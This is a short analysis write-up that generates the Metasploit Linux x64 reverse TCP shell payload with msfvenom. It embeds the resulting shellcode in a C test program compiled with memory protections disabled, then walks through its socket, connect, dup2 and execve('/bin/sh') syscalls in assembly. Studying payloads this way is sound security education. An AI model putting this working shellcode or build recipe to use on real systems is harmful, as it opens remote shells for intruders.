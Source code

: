 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    ```
    push 0x29   ; SYS_SOCKET
    pop rax
    cdq         ; CLEAR RDX 
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall  
    xchg   rdi,rax ; Place returned fd in rdi
    ```

2. Create struct_sockaddr

    ```
    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family 
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 # Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall
    ```

3. dup2 loop

    ```
    push   0x3 
    pop    rsi
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall

    jne 0x7fffffffdce7  ; Make sure to duplicate everything
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall
    jne    0x7fffffffdce7
    ```


4. Execve syscall .

    ```
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f
    push   rbx
    mov    rdi,rsp
    push   rdx
    push   rdi
    mov    rsi,rsp
    syscall ; execve("/bin/sh", ["/bin/sh"], 0);
    ```


